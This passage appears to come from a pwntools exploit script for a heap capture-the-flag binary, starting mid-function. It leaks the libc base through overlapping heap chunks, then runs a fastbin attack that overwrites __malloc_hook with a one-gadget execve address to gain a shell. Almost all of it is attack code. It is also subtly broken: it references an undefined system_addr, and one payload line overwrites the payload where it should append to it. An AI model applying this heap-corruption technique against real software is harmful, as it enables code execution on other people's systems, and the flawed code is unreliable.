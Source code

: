 ```python
    p.sendline('2')
    p.recvuntil('Index:')
    p.sendline(str(index))
    p.recvuntil('Size:')
    p.sendline(str(size))
    p.recvuntil('Content:')
    p.send(content)

def free(index):
    p.recvuntil('Command:')
    p.sendline('3')
    p.recvuntil('Index:')
    p.sendline(str(index))

def dump(index):
    p.recvuntil('Command:')
    p.sendline('4')
    p.recvuntil('Index:')
    p.sendline(str(index))
    p.recvuntil('Content: \n')
    return p.recvline()[:-1]

def leak():
#    gdb.attach(p)
    alloc(0x60)
    alloc(0x40)
    fill(0, 0x60 + 0x10, 'a' * 0x60 + p64(0) + p64(0x71))
    alloc(0x100)
    fill(2, 0x20, 'c' * 0x10 + p64(0) + p64(0x71))
    free(1)
    alloc(0x60)
    fill(1, 0x40 + 0x10, 'b' * 0x40 + p64(0) + p64(0x111))
    alloc(0x50)
    free(2)
    leaked = u64(dump(1)[-8:])
    # return libc_base
    return leaked - 0x3c4b78


def fastbin_attack(libc_base):
    malloc_hook = libc.symbols['__malloc_hook'] + libc_base
    execve_addr = 0x4526a + libc_base

    log.info("malloc_hook @" + hex(malloc_hook))
    log.info("system_addr @" + hex(system_addr))
    gdb.attach(p)
    free(1)
    payload = 'a' * 0x60 + p64(0) + p64(0x71) + p64(malloc_hook - 27 - 0x8) + p64(0)
    fill(0, 0x60 + 0x10 + 0x10, payload)

    alloc(0x60)
    alloc(0x60)

    payload  = p8(0) * 3
    payload += p64(0) * 2
    payload  = p64(execve_addr)
    fill(2, len(payload), payload)
    alloc(0x20)

def main():
#    pwnlib.gdb.attach(p)
    libc_base = leak()
    log.info("get libc_base:" + hex(libc_base))
```